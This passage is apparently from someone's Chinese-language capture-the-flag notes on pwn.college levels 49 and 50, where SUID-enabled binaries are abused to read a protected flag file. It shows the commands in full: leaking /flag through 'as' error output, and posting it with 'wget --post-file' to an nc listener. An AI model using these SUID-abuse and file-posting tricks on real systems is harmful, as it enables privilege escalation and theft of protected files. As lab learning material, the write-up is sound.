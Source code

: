 ///@TODO:
这个一定要去看官方解答，直接在一个程序里面include '/flag'，然后靠报错得到flag，非常有启发

## level49 Just straight up wasn't designed to let you read files!

```
hacker@program-misuse-level-49:~$ sh file.sh
Welcome to ./babysuid_level49!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/as.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level49) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/as!
```
`as`:汇编语言的编译器
```
hacker@program-misuse-level-49:~$ as -g /flag
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{MqHCh7Oprd3rEP2f1i_RgAl8QZR.0VM5EDL2QjMyMzW}'
hacker@program-misuse-level-49:~$
```
通过调试输出

## level50 Just straight up wasn't designed to let you read files!

```
hacker@program-misuse-level-50:~$ sh file.sh
Welcome to ./babysuid_level50!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/wget.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level50) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wget!
```
`wget`:下载器
```
hacker@program-misuse-level-50:~$ nc -lp 8888 & wget --post-file=/flag http://127.0.0.1:8888
[1] 5873
--2023-07-22 13:39:17--  http://127.0.0.1:8888/
Connecting to 127.0.0.1:8888... connected.
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 127.0.0.1:8888
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

HTTP request sent, awaiting response... pwn.college{M8oJZxXsT1hCl5_WCWqpA-ITlJZ.0lM5EDL2QjMyMzW}

```
有个叫文件上传的功能，这个看了一个别人的答案
